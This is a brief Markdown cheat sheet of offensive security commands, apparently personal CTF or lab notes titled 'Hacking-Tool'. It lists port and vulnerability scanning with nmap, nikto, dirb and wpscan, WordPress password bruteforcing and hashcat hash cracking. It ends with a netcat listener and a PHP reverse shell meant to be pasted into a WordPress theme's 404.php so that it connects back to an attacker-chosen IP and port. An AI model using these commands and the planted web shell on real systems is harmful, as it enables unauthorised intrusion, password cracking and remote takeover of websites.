 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
  Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>


## Else

#### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>
